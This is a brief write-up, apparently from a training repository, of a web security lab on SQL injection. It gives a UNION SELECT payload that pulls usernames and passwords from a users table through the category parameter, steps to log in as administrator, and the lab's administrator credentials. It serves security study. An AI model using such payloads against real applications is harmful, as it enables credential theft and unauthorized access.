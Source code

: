 # Lab 04

## Lab: Retrieving multiple values within a single column

**Objective:** Retrieving multiple values within a single column(~)

**Payload:** '+UNION+SELECT+NULL,username||'~'||password+FROM+users--

**Step-by-step:**
1. Intercept filter & Modify the category parameter
2. Add the payload
3. Take the username & Password for admministrator 
4. Login with the credentials 

**Credentilas:** administrator:eu40tn0qabtaplidprxr

![324e611034db422f9fb5def6d845eda0](https://user-images.githubusercontent.com/44063862/106168115-e3e94080-61c8-11eb-8df0-9266caacbe7a.png)
